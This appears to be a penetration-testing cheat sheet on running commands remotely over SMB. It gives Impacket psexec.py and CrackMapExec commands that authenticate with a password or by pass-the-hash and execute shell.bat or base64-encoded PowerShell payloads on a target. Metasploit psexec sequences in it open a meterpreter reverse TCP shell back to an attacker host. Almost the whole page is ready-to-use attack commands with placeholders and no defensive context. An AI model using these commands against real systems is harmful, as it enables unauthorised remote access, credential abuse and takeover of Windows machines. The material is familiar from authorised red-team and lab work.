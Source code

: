 # SMB

## 01 - Impacket

- Authenticate via username and password

`$ psexec.py <domain_name>/<username>:<password>@<IP> -c shell.bat`

- Authenticate via Pass The Hash

`$ psexec.py <domain_name>/<username>@<IP> -hashes <LM>:<NT> -c shell.bat`

## 02 - CrackMapExec

- Authenticate via username and password

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -p <password> -x shell.bat`

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -p <password> -x "powershell -E <base64_payload>"`

- Authenticate via Pass The Hash

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -H <NT> -x shell.bat`

`$ crackmapexec smb <IP> -u <username> -d <domain_name> -H <NT> -x "powershell -E <base64_payload>"`

## 03 - Metasploit

- Authenticate via username and password

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain_name>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password>

msf exploit(windows/smb/psexec) > run
```

- Authenticate via Pass The Hash

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain_name>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:<nt_hash>

msf exploit(windows/smb/psexec) > run
```